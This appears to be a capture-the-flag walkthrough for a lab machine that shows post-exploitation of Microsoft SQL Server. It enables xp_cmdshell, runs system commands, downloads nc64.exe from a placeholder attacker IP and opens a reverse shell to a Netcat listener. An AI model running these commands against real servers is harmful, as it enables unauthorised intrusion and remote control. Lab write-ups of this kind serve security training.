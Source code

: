 ```
EXEC xp_cmdshell 'net user'; -- priv 
-- Enable xp_cmdshell (if disabled)
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Run system command
EXEC xp_cmdshell 'net user';
```

Let’s get our bearings:  Where are we, and who are we?

`SQL > xp_cmdshell “whoami”`

If you succeeded, you’ll get the user account you’re logged in as.  In this case, it’s sql_svc.

`SQL xp_cmdshell “powershell -c pwd”`

We are in “`C:\Windows\system32`”.

### 🔹 Setting up a reverse shell with nc64.exe
We’ve gained command execution via xp_cmdshell, but typing `xp_cmdshell` before every command is tedious. A reverse shell gives us direct, interactive access — making post-exploitation much easier.

This method involves two main steps:
	- Upload nc64.exe to the target via a simple HTTP server
	- Trigger the binary to connect back to our Netcat listener

🖥️ Step 1: Host nc64.exe on Your Attack Machine
Make sure nc64.exe is in your current directory, then start a Python HTTP server:

`sudo python3 -m http.server 80`

This allows the target machine to download the file.

📡 Step 2: Download nc64.exe from the Target
In your mssqlclient.py shell, run:

```
EXEC xp_cmdshell 'powershell -c "cd C:\Users\sql_svc\Downloads; wget http://<ATTACKER_IP>/nc64.exe -OutFile nc64.exe"';
```

This tells the target to connect to your attack box and download the Netcat binary into the Downloads directory.

🖥️ Step 3: Start the Netcat Listener
Before launching the reverse shell, get ready to receive it:

`sudo nc -lvnp 443`

💥 Step 4: Execute the Reverse Shell
Trigger the connection from the target back to your listener:

`EXEC xp_cmdshell 'C:\Users\sql_svc\Downloads\nc64.exe <ATTACKER_IP> 443 -e cmd.exe';`

If successful, you'll catch a Windows command shell on your listener.  The user flag is found on the user’s Desktop.
